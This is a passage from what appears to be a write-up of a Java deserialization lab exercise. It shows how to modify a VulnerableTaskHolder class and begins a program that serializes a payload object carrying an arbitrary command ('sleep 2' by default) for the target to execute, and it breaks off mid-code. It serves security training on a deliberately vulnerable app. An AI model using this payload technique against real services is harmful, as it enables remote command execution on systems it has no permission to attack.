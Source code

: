 ![VulnerableTaskHolder](../images/2021-06-23-Vuln_discovery_Java/VulnerableTaskHolder.png)

Let's rewrite this class and create a simple Java class that will serialize proper `VulnerableTaskHolder` objects for us.

I've added another constructor to my `VulnerableTaskHolder` to make it possible to set custom `requestedExecutionTime` instead of default `LocalDateTime.now();`.

```java
public VulnerableTaskHolder(String taskName, String taskAction, LocalDateTime taskTime ) {
	this.taskName = taskName;
	this.taskAction = taskAction;
	this.requestedExecutionTime = taskTime;
}
```

Remember that you need an `org.dummy.insecure.framework.VulnerableTaskHolder` object, so use `package org.dummy.insecure.framework;` statement and create appropriate directory structure for the class.

And the serialized blob generation:

```java
class DeserializationExperiment
{
    public static void main(String[] args)
    {
	    String blob = "";
        String task = "sleep 2";
        if (args.length > 0)
        {
            task = args[args.length - 1];
            if (args.length == 2 && args[0].equals("generate_payload"))
            {
                try
                {
                    VulnerableTaskHolder vth = new VulnerableTaskHolder("vulntask", task, LocalDateTime.now().minusMinutes(5));
                    ByteArrayOutputStream baos = new ByteArrayOutputStream();
```